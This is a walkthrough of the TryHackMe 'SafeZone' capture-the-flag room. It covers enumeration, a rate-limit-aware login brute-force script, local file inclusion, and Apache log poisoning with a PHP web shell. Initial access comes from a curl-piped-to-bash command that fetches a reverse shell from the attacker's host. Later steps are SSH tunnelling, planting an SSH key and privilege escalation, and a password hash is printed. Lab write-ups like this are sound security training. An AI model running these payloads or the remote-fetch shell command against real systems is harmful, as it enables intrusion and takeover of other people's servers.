 # 76 - SafeZone (LFI Log Poisoning, SSH Tunneling)

Room Link --> [https://tryhackme.com/room/safezone](https://tryhackme.com/room/safezone)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.90.206

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.90.206 -w /usr/share/dirb/wordlists/common.txt -x txt,php,sh,cgi,html,zip,bak,sql -b 404,403

/dashboard.php
/detail.php
/index.php
/index.html
/note.txt
/logout.php
/news.php
/register.php
```
{% endcode %}

Navigating to `index.php` .

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying default credentials like admin, password, etc but it seems there is rate limiting.

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking `/note.txt` .

{% code overflow="wrap" %}
```
Message from admin :-

I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Create a new account in `/register.php` .

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

`/news.php`&#x20;

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

`/detail.php`&#x20;

```
<!-- try to use "page" as GET parameter-->
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We got a GET parameter to use, and remember the `/note.php` text we found too.

So i checked walkthrough, the most reasonable one i saw admitted to using this wordlist:

```
/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
```

Which had the new directory in it.

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://safezone.thm/ -t30 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,php

/~files
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We got a hint for admin password.

```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "

```

In here I got the definitive username and the password. But there had to be two numbers in between. Because that was the only hint, I had to try all the different numeric combinations. But I still had in mind, that I only had three login attempts. So I set up the numeric combinations with Python and saved it to a file.

```bash
for i in {0..99}; do echo $i; done > numbers.txt
```

I manually edited the one digit numbers at the beginning to fit the scheme (from 0 to 00 and 1 to 01). With that prepared I ran it with wfuzz sleeping for 21 seconds per requests.

#### POST Login request bruteforce using wfuzz

{% code overflow="wrap" %}
```bash
wfuzz -c -z file,numbers.txt -d "username=admin&password=adminFUZZadmin&submit=Submit" -X POST -u http://safezone.thm/index.php -s 21
```
{% endcode %}

But i wrote my own bash script to automate this  well.

```bash
#!/bin/bash

url="http://safezone.thm/index.php"

for i in $(seq 10 99); do
    echo "[-]trying $i"
    response=$(curl -s -X POST -d "username=admin&password=admin${i}admin&submit=Submit" "$url")
    if ! echo "$response" | grep -qE "To many failed login attempts. Please login after 60 sec | Please enter valid login details"; then
        echo "[+]Correct password found: $i"
        break
    fi
    sleep 21
done
```

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

We got our correct password then.

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Going to the `/detail.php` dir, then using the "page" parameter we get LFI.

[http://10.10.148.163/detail.php?page=/etc/passwd](http://10.10.148.163/detail.php?page=/etc/passwd)

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

So i used SecsList to Bruteforce for other sensitive files i can read, and i was able to read the `access.log` file, so we can do Log Poisoning attack.

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```php
<?php system($_GET['cmd']); ?>
```

So we intercept the request to read the apache log file and inject this to the User-agent field:

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

So its working.

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Got a bash oneliner from payloadallthethings, save it in a shell.sh file setup NC, host it using `python3 -m http.server` then execute it using:

[http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash)

And i got shell.

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to files user

Looked around Files home dir, and there is a `.something#fake_can@be^here` file containing password hash for Files user.

{% code overflow="wrap" %}
```bash
www-data@safezone:/home/files$ cat '.something#fake_can@be^here'
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```
{% endcode %}

Cracked it using john

`magic`&#x20;

Login via ssh and it worked.

### Priv Esc to Yash user

`sudo -l`&#x20;

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

I looked around the server for a while. When I looked for opened ports locally I found a second web application on port 8000.

`ss -tulnp` .

### Port Tunneling

Using SSH Tunneling to open the remote port on my kali

`ssh -L 8000:localhost:8000 files@safezone.thm -fN` .

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://localhost:8000 -w /usr/share/dirb/wordlists/common.txt -x php,txt -b 404,403

/pentest.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Most of the cmds were blocked.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

SO whatever cmd we are entering in the terminal is been executed on the machine as `yash` user.

What i did was create a `.ssh` folder in `/home/yash/` then add my kali ssh public key into the authorized\_keys file and ssh into yash account and it worked.

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

Now as the user “yash” I got another output for the `sudo -l` command.

I tested the full command by simply executing it.

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Done!

